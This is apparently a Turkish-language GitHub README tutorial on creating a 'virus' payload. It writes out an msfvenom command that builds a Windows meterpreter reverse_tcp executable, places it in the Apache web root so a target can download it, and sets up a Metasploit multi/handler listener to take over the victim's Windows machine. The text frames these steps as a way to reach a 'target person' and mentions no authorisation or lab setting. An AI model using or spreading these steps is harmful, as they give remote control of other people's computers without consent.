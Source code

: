 ## Selam Ben linax Ve Bugun Sizlere Nasil Virus(payload) Nasil Olusturulur Onu Anlaticam.
### Oncelikle Terminali Aciyoruz Ve msfvenom Ile Komutumuzu Yaziyoruz.
### msfvenom -p windows/meterpreter/reverse_tcp LHOST='Local Ipniz' LPORT=4444 -f exe > /var/www/html/virus.exe 
  
![Screenshot_2022-07-17_06_44_33](https://user-images.githubusercontent.com/100614268/179394888-468d8bdc-a63e-4727-9d5c-c055d0379a82.png)

### Burada Bilgisayara meterpreter Icin Bir reverse_tcp Olusturmasini Istiyoruz Ve Onu /var/www/html/virus.exe Icerisine Yolluyoruz.
### Daha Sonra Bunu Bir Servicede Aktif Etmemiz Gerek. Aktif Etmeden De Yapilir Ama Hedef Kisiye Daha Rahat Ulasabilmesi Icin Servicelerimizi Acicaz. Bunun Icin Terminale Sirasiyla Yaziyoruz.

### sudo service apache2 start
### sudo service apache2 status
  
![Screenshot_2022-07-17_06_45_23](https://user-images.githubusercontent.com/100614268/179394987-3e5f2793-89de-411e-b523-4f39b78a551e.png)

### Evet Bunun Anlami Artik Bizim Local IP mizi Bir Cihaz Web Tarayicisina Girerse Direk virus.exe yi Download Isticek. Bu Sayede Sadece Hedef Bilgisayara Kendi Local Ipnizi Girerek Bilgisayara payloadi Yerlestire Bilirsiniz. Peki Dosyayi Windowsa Atip Bir Yolla Calistirdiniz Diyelim. Devaminda Ne Yapmamiz Gerek?
  
![Screenshot_2022-07-17_06_45_59](https://user-images.githubusercontent.com/100614268/179395284-d205fc88-c31f-47e7-bf03-d654423a2bf5.png)

### Terminale msfconsole Yaziyoruz. Daha Sonra use multi/handler Yaziyoruz. Sonra show options Yaziyoruz Ve LHOSTU  set lhost 192.168.x.x  Seklinde Yazip local Ipnizi Dinleme Araci Yapiyorsunuz. Ve Artik Hazirsiniz. 
![Screenshot_2022-07-17_06_47_02](https://user-images.githubusercontent.com/100614268/179395205-91bc1d94-6ca9-4c6f-9bb7-e502ade40310.png)

### exploit yada run Komutlarini Girdikten Sonra Windowsa Erisirsiniz. help Yazarak Devam Ede Bilirsiniz.
